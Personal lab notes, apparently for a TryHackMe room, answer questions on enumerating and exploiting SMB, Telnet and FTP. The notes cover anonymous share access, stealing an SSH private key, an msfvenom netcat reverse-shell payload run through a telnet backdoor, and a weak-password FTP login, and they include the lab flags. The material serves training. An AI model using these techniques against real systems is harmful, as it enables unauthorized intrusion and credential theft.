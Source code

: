 - Note: Different IP addresses indicates that the task was completed on a different day. 
- Task 1: Get Connected
	- Ready? Let's get going!
		- No answer needed
- Task 2: Understanding SMB
	- What does SMB stand for?
		- Server Message Block
	- What type of protocol is SMB?
		- response-request
	- What do clients connect to servers using?
		- TCP/IP
	- What systems does Samba run on?
		- Unix
- Task 3: Enumerating SMB 
	- Conduct an **nmap** scan of your choosing, How many ports are open?
		- ![[nmap -sS 10.10.22.206.png]]
	- Used nmap -sS (SYN Scan) on 10.10.22.206 for a quick, stealthy, and accurate scan. 
		- 3
	- What ports is **SMB** running on?
		- 139/445
	- Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the **workgroup** name?
		- ![[enum4linux -a 10.10.22.206.png]]
		- ![[enum4linux output 1.png]]
		- WORKGROUP
	- What comes up as the **name** of the machine?
		- POLOSMB
	- What operating system **version** is running?
		- 6.1
	- What share sticks out as something we might want to investigate?
		- ![[enum4linux output 2.png]]
		- profiles
- Task 4: Exploiting SMB
	- What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?
		- smbclient //10.10.10.2/secret -U suit -p 445
	- Great! Now you've got a hang of the syntax, let's have a go at trying to exploit this vulnerability. You have a list of users, the name of the share (smb) and a suspected vulnerability.
		- No answer needed
	- Does the share allow anonymous access? Y/N?
		-  ![[Pasted image 20241222084214.png]]
		- Y
	- Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?
		- ![[Pasted image 20241222084340.png]]
		- ![[Pasted image 20241223074527.png]]
		- ![[Pasted image 20241223075029.png]]
		- John Cactus
	- What service has been configured to allow him to work from home?
		- ssh
	- Okay! Now we know this, what directory on the share should we look in?
		- .ssh
	- This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?
		- ![[cd .ssh followed by ls.png]]
		- id_rsa
	- Download this file to your local machine, and change the permissions to "600" using "chmod 600 [file]".
		- ![[Pasted image 20241224075137.png]]
		- ![[Pasted image 20241223081545.png]]

	- Or
		-  ![[Pasted image 20241224080747.png]]
	- Now, use the information you have already gathered to work out the username of the account. Then, use the service and key to log-in to the server.
		-  cactus@polosmb
		- ![[Pasted image 20241224080804.png]]
		- ![[Pasted image 20241224080922.png]]
	- What is the smb.txt flag?
		- THM{smb_is_fun_eh?}
- Task 5: Understanding Telnet
	- What is Telnet?
		- application protocol
	- What has slowly replaced Telnet?
		- ssh
	- How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?
		- telnet 10.10.10.3 23
	- The lack of what, means that all Telnet communication is in plaintext?
		- encryption
- Task 6: Enumerating Telnet
	- How many **ports** are open on the target machine?
		- ![[Pasted image 20241225084648.png]]
		- 1
	- What **port** is this?
		- 8012
	- This port is unassigned, but still lists the **protocol** it's using, what protocol is this?
		- TCP
	- Now re-run the **nmap** scan, without the **-p-** tag, how many ports show up as open?
		- ![[Pasted image 20241225085004.png]]
		- 0
	- Here, we see that by assigning telnet to a **non-standard port**, it is not part of the common ports list, or top 1000 ports, that nmap scans. It's important to try every angle when enumerating, as the information you gather here will inform your exploitation stage.
		- No answer needed
	- Based on the title returned to us, what do we think this port could be **used for**?
		- ![[Pasted image 20241226072509.png]]
		- a backdoor
	- Who could it belong to? Gathering possible **usernames** is an important step in enumeration.
		- Skidy
	- Always keep a note of information you find during your enumeration stage, so you can refer back to it when you move on to try exploits.
		- No answer needed
- Task 7: Exploiting Telnet
	- Okay, let's try and connect to this telnet port! If you get stuck, have a look at the syntax for connecting outlined above.
		- ![[Pasted image 20241229083921.png]]
		- No answer needed
	- Great! It's an open telnet connection! What welcome message do we receive?
		- SKIDY'S BACKDOOR.
	- Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)
		- N
	- Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command.
		- No answer needed
	- Now, use the command **"ping [local THM ip] -c 1"** through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)
		- ping on victim's machine
		- ![[Pasted image 20241229083820.png]]
		- sudo tcpdump ip proto \\icmp -i ens5 on attacker's machine
		- ![[Pasted image 20241228085027.png]]
		- Y
	- Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!
		- No answer needed
	- We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:
		- msfvenom -p cmd/unix/reverse_netcat lhost=[local ens5 ip] lport=4444 R
		- 
	- What word does the generated payload start with?
	- mkfifo
	- Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine.
		- "nc -lvnp [listening port chosen]"
	- What would the command look like for the listening port we selected in our payload?
		- nc -lvnp 4444
	- Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!
		- ![[Pasted image 20241229083724.png]]
		- ![[Pasted image 20241229083342.png]]
		- No answer needed
	- Success! What is the contents of flag.txt?
		- THM{y0u_g0t_th3_t3ln3t_fl4g}
- Task 8: Understanding FTP
	- What communications model does FTP use?
		- client-server
	- What's the standard FTP port?
		- 21
	- How many modes of FTP connection are there?
		- 2 (active or passive)
- Task 9: Enumerating FTP
	- How many **ports** are open on the target machine?
		- ![[Pasted image 20241230081216.png]]
		- 2
	- What **port** is ftp running on?
		- 21
	- What **variant** of FTP is running on it?
		- vsftpd
	- Great, now we know what type of FTP server we're dealing with we can check to see if we are able to login anonymously to the FTP server. We can do this using by typing "_ftp [IP]_" into the console, and entering "anonymous", and no password when prompted.
	- What is the name of the file in the anonymous FTP directory?
		- PUBLIC_NOTICE.txt
	- What do we think a possible username?
		- ![[Pasted image 20241230083857.png]]
		- ![[Pasted image 20241230084103.png]]
		- Mike
	- Great! Now we've got details about the FTP server and, crucially, a possible username. Let's see what we can do with that...
		- No answer needed
could be?
- Task 10: Exploiting FTP
	- What is the password for the user "mike"?
	- ![[Pasted image 20241230084727.png]]
	- password
	- ![[Pasted image 20241230084930.png]]
	- ![[Pasted image 20241230085015.png]]
	- THM{y0u_g0t_th3_ftp_fl4g}
- Task 11: Expanding your Knowledge
	- Well done, you did it!
		- No answer needed